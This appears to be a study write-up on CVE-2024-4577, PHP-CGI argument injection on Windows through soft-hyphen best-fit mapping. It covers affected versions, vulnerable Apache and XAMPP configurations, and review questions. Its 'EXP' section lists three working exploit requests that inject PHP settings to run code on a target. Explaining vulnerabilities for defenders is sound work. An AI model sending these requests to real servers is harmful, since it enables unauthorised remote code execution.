 # PHP CGI RCE (CVE-2024-4577)

The PHP programming language, during its design, neglected the **Best-Fit character encoding** conversion feature inherent in Windows operating systems. This oversight allows unauthenticated attackers to bypass protections from the old CVE-2012-1823 by using specific character sequences to perform attacks such as parameter injection, subsequently executing arbitrary code on remote PHP servers.

**Scope of Impact** This vulnerability affects **all PHP versions installed on Windows operating systems.** For detailed information, refer to the table below:

* PHP 8.3 < 8.3.8
* PHP 8.2 < 8.2.20
* PHP 8.1 < 8.1.29

## How to Determine if You Are Vulnerable to Attack?&#x20;

For common setups involving the Apache HTTP Server combined with PHP, website administrators can confirm whether their server is vulnerable using the two methods listed in this article. Notably, Scenario Two is also the default setting during the installation of XAMPP for Windows, implying that all versions of XAMPP for Windows are inherently affected by this vulnerability.

At the time of writing this article, it has been verified that unauthorized attackers can execute arbitrary code on remote servers running Windows operating systems in the following language environments:

* Traditional Chinese (Code page 950)
* Simplified Chinese (Code page 936)
* Japanese (Code page 932)

For other Windows operating systems operating in English, Korean, and Western European languages, due to the extensive use of PHP and the inability to comprehensively list and rule out all exploitable scenarios, it is still recommended that users thoroughly inventory their assets, verify usage scenarios, and update PHP to the latest version to ensure maximum security.

## Evil Soft Hyphen

A soft hyphen (represented in HTML as `&shy;`) is an invisible character used to indicate an optional hyphenation point within a line of text. In web development, the soft hyphen is often used in long words or URLs to allow for automatic line breaks at the edge of the display without altering the actual content or meaning of the text.

## What is Common gateway Interface?

The Common Gateway Interface (CGI) is a standard protocol that defines how web servers can interact with **executable programs installed on a server that generate web pages dynamically**. Such programs are called CGI scripts; they can be written in any programming language, including PHP.

In the context of PHP and web development, **CGI acts as a bridge** between the PHP script and the web server, allowing the server to pass data, like form inputs or request details, to the PHP script. The PHP script processes this data and sends back the generated HTML (or other data types) to the server, which then sends it to the client's browser.

Example:

&#x20;querystrings are parsed and passed to the PHP interpreter on the command line - a request such as as [`http://host/cgi.php?foo=bar`](http://host/cgi.php?foo=bar\&ref=labs.watchtowr.com) might be executed as `php.exe -cgi.php foo=bar`

## So what?

Here are two invocations of php.exe, one malicious and one benign. Can you spot the difference?

&#x20;![](../.gitbook/assets/image.png)

one of them is soft hyphen(0xAD) and one of them is "dash"(0x2D)

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

While they both appear the same to you and me, they have vastly different meanings to the OS.

## Best fit mapping

PHP will apply what’s known as a ‘best fit’ mapping, and helpfully assume that, when the user entered a soft hyphen, they actually **intended to type a **_**real**_** hyphen**, and interpret it as such. Herein lies our vulnerability - if we supply a CGI handler with a **soft hyphen (0xAD)**, the CGI handler won’t feel the need to escape it, and will pass it to PHP. **PHP, however, will interpret it as if it were a **_**real**_** hyphen,** which allows an attacker to sneak extra command line arguments, which begin with hyphens, into the PHP process.

## Scenario One: Setting PHP to run under CGI mode In the Apache Httpd configuration file

when HTTP requests are directed to the PHP-CGI executable using the Action directive, this setup is affected by the vulnerability. Common configurations include, but are not limited to:

```
AddHandler cgi-script .php
Action cgi-script "/cgi-bin/php-cgi.exe"
```

or

```
<FilesMatch "\.php$">
    SetHandler application/x-httpd-php-cgi
</FilesMatch>

Action application/x-httpd-php-cgi "/php-cgi/php-cgi.exe"
```

## Scenario Two: Exposing the PHP executable to the public (Default installation setting in XAMPP)

Even if PHP is not configured to run under CGI mode, simply exposing the PHP executable in the CGI directory also subjects it to this vulnerability. Common situations include, but are not limited to:

* Copying php.exe or php-cgi.exe to the /cgi-bin/ directory.
* Exposing the PHP installation directory externally through ScriptAlias, such as:

```
ScriptAlias /php-cgi/ "C:/xampp/php/"
```

## Different type of EXP

### EXP 1

SSRF

{% code overflow="wrap" %}
```
http://PhpVulnEnv/php-cgi/php-cgi.exe?%add+cgi.force_redirect%3dXCANWIN+-d+allow_url_include%3d1+-d+auto_prepend_file%3d"data:XCANWIN/XCANWIN;,PD9waHAgZGllKCJUZSIuInNUIik7Pz4g"
```
{% endcode %}

### EXP 2

```
POST /php-cgi/php-cgi.exe?%add+cgi.force_redirect%3dXCANWIN+%add+allow_url_include%3don+%add+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: PhpVulnEnv

<?php phpinfo();?>
```

### EXP 3

```
POST /php-cgi/php-cgi.exe?%add+allow_url_include%3don+%add+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: PhpVulnEnv
REDIRECT-STATUS: XCANWIN

<?php phpinfo();?>
```

## Demo

{% file src="../.gitbook/assets/CVE Demo (2).mp4" %}
Demo Video
{% endfile %}

## Interview Question

**1) Why is XAMPP being infected the most in this CVE?**

**2) What is best fit mapping how it cause this Vulnerability?**

**3) Which setting you have to modify to fix this issue?**

## Author

[Ikonw](https://github.com/Ik0nw)

## Reference

{% embed url="https://mp.weixin.qq.com/mp/wappoc_appmsgcaptcha?poc_token=HFj3amajFr1bUBstRri7lGhHA70Gus9G7sywHr1p&target_url=https%3A%2F%2Fmp.weixin.qq.com%2Fs%2F93TuxZ4AVqHXcnJw3M4hRg" %}

{% embed url="https://labs.watchtowr.com/no-way-php-strikes-again-cve-2024-4577/" %}

{% embed url="https://devco.re/blog/2024/06/06/security-alert-cve-2024-4577-php-cgi-argument-injection-vulnerability/" %}

